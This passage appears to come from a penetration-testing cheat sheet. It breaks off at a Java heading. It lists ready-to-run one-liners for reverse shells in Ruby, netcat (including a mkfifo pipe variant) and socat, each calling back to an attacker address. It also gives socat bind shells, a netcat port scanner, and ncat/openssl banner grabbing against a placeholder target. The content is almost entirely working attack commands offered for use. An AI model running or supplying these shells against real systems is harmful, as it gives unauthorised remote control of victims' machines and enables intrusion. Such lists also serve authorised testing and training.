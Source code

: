 ```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```sh
nc -e /bin/sh 10.0.0.1 1234
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Netcat port scanner

```sh
echo "" | nc -nvw2 <IP> <Port Range>
```

Netcat and OpenSSL banner grabbing

```sh
ncat -vC --ssl www.target.org 443
openssl s_client -crlf -connect www.target.org:443
```

## Socat

Reverse shell:

On the attack platform:

```sh
root@attacker# socat file:`tty`,raw,echo=0 tcp-listen:5555
```

On the victim platform:

```sh
user@victim $ socat tcp-connect:<Attacker IP>:5555 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

Bind shell:

On the attack platform:

```sh
root@attacker# socat FILE:`tty`,raw,echo=0 TCP:<Target IP>:5555
```

On the victim platform:

```sh
user@victim $ socat TCP-LISTEN:5555,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Java
